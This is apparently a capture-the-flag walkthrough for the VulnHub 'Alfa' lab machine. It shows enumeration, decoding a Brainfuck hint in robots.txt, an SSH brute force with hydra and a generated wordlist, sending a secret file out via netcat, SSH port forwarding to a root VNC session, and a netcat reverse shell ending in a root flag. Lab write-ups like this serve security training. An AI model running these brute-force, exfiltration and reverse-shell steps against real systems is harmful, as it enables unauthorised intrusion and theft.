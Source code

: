 ```yaml
---
layout : post
title: alfa Writeup
image : alfa.png
date: 2021-07-19 13:18 +0530
tags: [SSH PortForwarding ,VNCViewer , Decoding ] 
---
```


In this walkthrough, we deep explore the robots.txt source code and find an encoded code. On decryption, it reveals a directory on the server that leads us to create a password list for the Thomas user. We then SSH into the machine using a brute-force attack. For privilege escalation, we notice that the VNC service is running on localhost. By using SSH port forwarding, we gain root access. 

# Nmap 

```
Discovered open port 80/tcp on 10.0.2.100
Discovered open port 139/tcp on 10.0.2.100
Discovered open port 21/tcp on 10.0.2.100
Discovered open port 445/tcp on 10.0.2.100
Discovered open port 65111/tcp on 10.0.2.100

```
# Enumeration

```
ftp 10.0.2.100
Connected to 10.0.2.100.
220 (vsFTPd 3.0.3)
Name (10.0.2.100:user): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        113          4096 Dec 17  2020 .
drwxr-xr-x    3 0        113          4096 Dec 17  2020 ..
drwxr-xr-x    2 0        0            4096 Dec 17  2020 thomas
226 Directory send OK.
ftp> pass
Passive mode on.
ftp> cd thomas
250 Directory successfully changed.
ftp> ls -al
227 Entering Passive Mode (10,0,2,100,142,211).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Dec 17  2020 .
drwxr-xr-x    3 0        113          4096 Dec 17  2020 ..
-rw-r--r--    1 0        0          104068 Dec 17  2020 milo.jpg
226 Directory send OK.
ftp> get milo.jpg

```

These are only directories present on server 

```
dirsearch --url http://10.0.2.100/ --wordlist /usr/share/wordlists/dirb/big.txt 

[06:56:47] Starting: 
[06:56:52] 301 -  306B  - /css  ->  http://10.0.2.100/css/
[06:56:54] 301 -  308B  - /fonts  ->  http://10.0.2.100/fonts/
[06:56:55] 301 -  309B  - /images  ->  http://10.0.2.100/images/
[06:56:56] 301 -  305B  - /js  ->  http://10.0.2.100/js/
[06:57:01] 200 -  459B  - /robots.txt
[06:57:02] 403 -  275B  - /server-status

```

before , this i was Bruteforcing the everyService , but forgot check the complete robots.txt page till the end , this encoded found at bottom of page 

```
curl 10.0.2.100/robots.txt

...
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>+++++++++++++++++.>>---.+++++++++++.------.-----.<<--.>>++++++++++++++++++.++.-----..-.+++.++
```
![]({{site.baseurl}}/img/vulnhub/alfa/Decode.png)

this reveled /alfa-support directory 

![]({{site.baseurl}}/img/vulnhub/alfa/alfa.png)

so here thomas gave a hint about his password has his petname with 3 digits at end 

from ftp we got a picture of a pet name milo 

so lets make a wordlist a bruteforce the ssh 

```py
with open("wordlist.txt", "w") as file:
    print("started writing on wordlist.txt")
    
    for i in range(1000):
        file.write(f"milo{i:03}\n")
            
    print("wordlist created")

```

# Exploitation 


from genrated wordlist lets bruteforce the ssh 

hydra -l thomas  10.0.2.100 -P wordlist.txt ssh -t 64 -I -s 65111

```
[65111][ssh] host: 10.0.2.100   login: thomas   password: milo666

```

password found !

# Privilage Escaltion 

```
thomas@Alfa:~$ ls -al
total 40
drwxr-xr-x 4 thomas thomas 4096 Dec 20  2020 .
drwxr-xr-x 3 root   root   4096 Dec 16  2020 ..
-rw------- 1 thomas thomas    4 Dec 20  2020 .bash_history
-rw-r--r-- 1 thomas thomas  220 Dec 16  2020 .bash_logout
-rw-r--r-- 1 thomas thomas 3526 Dec 16  2020 .bashrc
drwx------ 3 thomas thomas 4096 Jul 19 09:03 .gnupg
drwxr-xr-x 3 thomas thomas 4096 Dec 16  2020 .local
-rw-r--r-- 1 thomas thomas  807 Dec 16  2020 .profile
-rwxrwxrwx 1 root   root     16 Dec 17  2020 .remote_secret
-rw-r--r-- 1 thomas thomas 1332 Dec 20  2020 user.txt

```

from thamos home folder there is .remote_secret ! might be helpfull 

Transfering this to machine 

```s
#alphamachine

nc -nv 10.0.2.93 5555 < thomas/remote_secret 
(UNKNOWN) [10.0.2.93] 5555 (?) open

#Attackers machine 

nvlp 5555 > key
listening on [any] 5555 ...
connect to [10.0.2.93] from (UNKNOWN) [10.0.2.100] 35176
```
```
tcp        0      0 127.0.0.1:5901          0.0.0.0:*               LISTEN 
```

at local host vnc server is running as a root 

lets PortForword the port into local machine using ssh 

```
ssh -L 5901:127.0.0.1:5901 thomas@10.0.2.100
```

lets verify the port

```
nmap -p5901 127.0.0.1 -sCV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-19 08:11 BST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.0026s latency).

PORT     STATE SERVICE VERSION
5901/tcp open  vnc     VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|_    VNC Authentication (2)


```
yes its running in our local machine 

so we need a pass key to connect to the vnc , 

remember we got a remote_secret so this is the same pass key for vnc auth!  

lets connect to it

```
ssvncviewer -passwd key 127.0.0.1::5901
```
![]({{site.baseurl}}/img/vulnhub/alfa/Vnc.png)

excellent we are sucessfully connected now we need to get the root shell , since the nc is installed in the machine , creating the reverse shell will give us as root shell 

```
nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.0.2.93] from (UNKNOWN) [10.0.2.100] 44398
whoami 
root
python -c 'import pty;pty.spawn("/bin/bash")'
root@Alfa:~# id
id
uid=0(root) gid=0(root) grupos=0(root)
root@Alfa:~# ls
ls
root.txt  vnc
root@Alfa:~# cat r	
cat root.txt 

root_flag==>> QFqy4EUHwtu9rrrVe2T27we5W


  , ; ,   .-'"""'-.   , ; ,
  \\|/  .'         '.  \|//
   \-;-/   ()   ()   \-;-/
   // ;               ; \\
  //__; :.         .; ;__\\
 `-----\'.'-.....-'.'/-----'
        '.'.-.-,_.'.'
          '(  (..-'
            '-'



```

